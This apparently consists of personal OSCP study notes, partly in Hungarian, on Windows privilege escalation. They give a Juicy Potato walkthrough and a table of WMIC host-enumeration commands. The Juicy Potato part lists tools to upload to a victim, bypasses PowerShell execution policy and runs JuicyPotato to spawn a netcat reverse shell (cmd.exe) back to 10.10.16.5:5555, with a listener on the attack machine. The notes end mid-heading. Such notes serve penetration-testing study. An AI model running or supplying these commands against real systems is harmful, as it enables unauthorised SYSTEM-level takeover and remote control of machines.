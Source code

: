 # Win privesc techniques
## Juicy Potato
* Needed scripts from github (all of them need to be uploaded to the victim machine)
  * JuicyPotato binaries
    * https://github.com/ohpe/juicy-potato
  * ncat binaries
    * https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
  * Enable privileges
    * ez nem mukodott
      * https://www.powershellgallery.com/packages/PoshPrivilege/0.3.0.0/Content/Scripts%5CEnable-Privilege.ps1
    * ez mukodott
      * https://www.leeholmes.com/adjusting-token-privileges-in-powershell/
* Eloszor futtassuk a JuicyPotato binary-t uresen. Ki kell hogy adja e help menut.
* Utana parameteresen futtassuk
  * Ha hiba van, erdemes megnezni egyesevel a cmd es nc binary-kat az absolute uttal, hogy jok e
  * Ha COM recv hiba van, akkor masik clsid-t probaljunk meg
    * Minden oprendszer verziohoz kulon vannak, itt talalhatok
      * https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
    * Valasszuk ki a megfelelo oprendszer verziot, es ott 4-5 darabot probaljunk meg a clsid-k kozul, valamelyiknek mukodnie kell
<pre>
<b># victim machine</b>
PS> Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass -Force
PS> Import-Module .\EnableAllTokenPrivs.ps1
PS> Enable-Privilege -Privilege SeAssignPrimaryTokenPrivilege
PS> whoami /priv (most mar elvileg Enabled lett)
PS> .\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\users\public\downloads\nc.exe 10.10.16.5 5555 -e c:\windows\system32\cmd.exe" -t * -c "{03ca98d6-ff5d-49b8-abc6-03dd84127020}"

<b># attack machine</b>
$ nc -nvlp 5555
</pre>
## Host enumeration
### Host enumeration with WMIC
|Command|Description|
|-|-|
|wmic qfe get Caption,Description,HotFixID,InstalledOn|Prints the patch level and description of the Hotfixes applied|
|wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List|Displays basic host information to include any attributes within the list|
|wmic process list /format:list|A listing of all processes on host|
|wmic ntdomain list /format:list|Displays information about the Domain and Domain Controllers|
|wmic useraccount list /format:list|Displays information about all local accounts and any domain accounts that have logged into the device|
|wmic group list /format:list|Information about all local groups|
|wmic sysaccount list /format:list|Dumps information about any system accounts that are being used as service accounts.|
![image](https://github.com/VajdaGergely/OSCP_notes/assets/39236093/ffde6c86-3428-4495-b671-20b153684450)

### Host enumeration with 
